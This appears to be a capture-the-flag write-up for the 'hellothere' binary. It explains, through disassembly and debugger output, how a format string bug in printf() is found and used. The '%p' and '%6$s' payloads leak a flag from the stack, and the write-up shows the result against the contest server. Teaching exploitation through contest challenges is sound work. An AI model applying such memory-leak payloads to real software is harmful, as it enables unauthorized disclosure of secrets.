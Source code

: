 For this challenge, we are presented with a single binary named "hellothere". When we run it, we are prompted to enter a name and upon doing so are greeted and then asked to enter a name again. The process repeats in a loop.

```
$ ./hellothere 
What is your name?
name

Hello there, name

What is your name?
```

Here's the disassembly of the main() function.

```asm
┌ 196: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_60h @ rbp-0x60
│           ; var file*stream @ rbp-0x58
│           ; var char *format @ rbp-0x50
│           ; var char *s @ rbp-0x30
│           ; var int64_t var_8h @ rbp-0x8
│           0x000011d8      55             push rbp
│           0x000011d9      4889e5         mov rbp, rsp
│           0x000011dc      4883ec60       sub rsp, 0x60
│           0x000011e0      64488b042528.  mov rax, qword fs:[0x28]
│           0x000011e9      488945f8       mov qword [var_8h], rax
│           0x000011ed      31c0           xor eax, eax
│           0x000011ef      488d45d0       lea rax, [s]
│           0x000011f3      488945a0       mov qword [var_60h], rax
│           0x000011f7      b800000000     mov eax, 0
│           0x000011fc      e894ffffff     call sym.buffer_init
│           0x00001201      488d35000e00.  lea rsi, [0x00002008]       ; "r" ; const char *mode
│           0x00001208      488d3dfb0d00.  lea rdi, str.._flag.txt     ; 0x200a ; "./flag.txt" ; const char *filename
│           0x0000120f      e86cfeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x00001214      488945a8       mov qword [stream], rax
│           0x00001218      48837da800     cmp qword [stream], 0
│       ┌─< 0x0000121d      7516           jne 0x1235
│       │   0x0000121f      488d3df20d00.  lea rdi, str.The_flag_file_isnt_loading._Please_contact_an_organiser_if_you_are_running_this_on_the_shell_server. ; 0x2018 ; "The flag file isn't loading. Please contact an organiser if you are running this on the shell server." ; const char *s
│       │   0x00001226      e815feffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x0000122b      bf00000000     mov edi, 0                  ; int status
│       │   0x00001230      e85bfeffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from main @ 0x121d
│       └─> 0x00001235      488b55a8       mov rdx, qword [stream]     ; FILE *stream
│           0x00001239      488d45d0       lea rax, [s]
│           0x0000123d      be20000000     mov esi, 0x20               ; "@" ; int size
│           0x00001242      4889c7         mov rdi, rax                ; char *s
│           0x00001245      e826feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           ; CODE XREF from main @ 0x129a
│       ┌─> 0x0000124a      488d3d2d0e00.  lea rdi, str.What_is_your_name_ ; 0x207e ; "What is your name?" ; const char *s
│       ╎   0x00001251      e8eafdffff     call sym.imp.puts           ; int puts(const char *s)
│       ╎   0x00001256      488b15132e00.  mov rdx, qword [obj.stdin]  ; obj.stdin_GLIBC_2.2.5
│       ╎                                                              ; [0x4070:8]=0 ; FILE *stream
│       ╎   0x0000125d      488d45b0       lea rax, [format]
│       ╎   0x00001261      be20000000     mov esi, 0x20               ; "@" ; int size
│       ╎   0x00001266      4889c7         mov rdi, rax                ; char *s
│       ╎   0x00001269      e802feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│       ╎   0x0000126e      488d3d1c0e00.  lea rdi, str._nHello_there__ ; 0x2091 ; "\nHello there, " ; const char *format
│       ╎   0x00001275      b800000000     mov eax, 0
│       ╎   0x0000127a      e8e1fdffff     call sym.imp.printf         ; int printf(const char *format)
│       ╎   0x0000127f      488d45b0       lea rax, [format]
│       ╎   0x00001283      4889c7         mov rdi, rax                ; const char *format
│       ╎   0x00001286      b800000000     mov eax, 0
│       ╎   0x0000128b      e8d0fdffff     call sym.imp.printf         ; int printf(const char *format)
│       ╎   0x00001290      bf0a000000     mov edi, 0xa                ; int c
│       ╎   0x00001295      e896fdffff     call sym.imp.putchar        ; int putchar(int c)
└       └─< 0x0000129a      ebae           jmp 0x124a

```

In the prologue we can see that it's making 96 bytes (0x60) of space on the stack and then storing a canary value at the end of that space, although this value is not used because main doesn't return. Next it stores a pointer to another buffer starting at rbp-0x30 into the reserved space. Next it calls a buffer_init() function which disables buffering on standard input, standard output, and standard error which is commonly done in these types of problems. Next it attempts to open a file (./flag.txt) and reads it into a buffer on the stack which starts at 48 bytes (0x30) into the reserved space. If the file can't be opened, it prints an error message and calls exit().

After reading the flag into the buffer, it prompts the user to enter a name and reads the up to 32 bytes (0x20) of user input into a stack buffer starting at rbp-0x50. It then prints the greeting by calling printf() twice, first with a static string containing "\nHello there, " and second with the address of the buffer the user input was read into. It then calls putchar() to send a newline character.

Because the first argument to printf() is the "format string", passing unsanitized user input as the first argument to printf() can result in a format string vulnerability. In this case, we can use this vulnerability to leak the contents of the buffer which the flag file's contents were written into.

In order to do this, we need to know which numbered parameter holds the pointer to that buffer. One way to figure this out is to just send a bunch of "%p" format strings to leak pointers and use a debugger to figure out which one we're looking for. If we do that here, we get the following output:

```
What is your name?
%p %p %p %p %p %p %p %p %p %p

Hello there, 0x7fffffffb830 (nil) (nil) 0x7fffffffdec0 0xe 0x7fffffffdee0 0x5555555592a0 0x7025207025207025 0x2520702520702520 0x2070252070252070
```

If we set a breakpoint at main+184 so that we pause execution following the printf() call which is leaking data and inspect stack contents, we see the following:

```
00:0000│ rsp 0x7fffffffdeb0 —▸ 0x7fffffffdee0 ◂— 'flag{placeholder}\n'
01:0008│     0x7fffffffdeb8 —▸ 0x5555555592a0 ◂— 0xfbad2488
02:0010│     0x7fffffffdec0 ◂— '%p %p %p %p %p %p %p %p %p %p\n'
03:0018│     0x7fffffffdec8 ◂— ' %p %p %p %p %p %p %p\n'
04:0020│     0x7fffffffded0 ◂— 'p %p %p %p %p\n'
```

In this case, I created a "placeholder" flag so that I could develop and test the exploit locally. We can see that the flag file contents were read into a buffer at 0x7fffffffdee0. If we count from the first pointer leak, until we find that address, we can see that it's positional parameter six. We can leak the sixth positional parameter by sending a format string of %6$s.

Here's the output when run against the challenge server:

```
$ python hellothere.py REMOTE
[+] Opening connection to pwn-2021.duc.tf on port 31918: Done
[*] Switching to interactive mode

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}

What is your name?
```

